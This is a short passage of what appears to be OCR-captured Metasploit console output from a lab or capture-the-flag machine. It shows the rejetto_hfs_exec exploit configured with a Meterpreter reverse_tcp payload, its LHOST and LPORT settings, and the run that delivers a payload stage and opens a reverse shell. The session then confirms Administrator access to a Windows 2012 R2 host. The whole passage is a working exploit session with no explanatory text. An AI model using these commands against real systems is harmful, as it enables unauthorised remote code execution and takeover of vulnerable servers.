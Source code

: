```

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST eth1
LHOST => eth1

```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Using URL: http://0.0.0.0:8080/FpJQJu8V0Bd
[*] Local IP: http://10.10.16.2:8080/FpJQJu8V0Bd
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /FpJQJu8V0Bd
[*] Sending stage (200262 bytes) to 10.0.30.12
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.30.12:49239) at 2023-02-27 19:24:22 +0530
[!] Tried to delete %TEMP%\MzVmhJmYkEdzf.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator

```
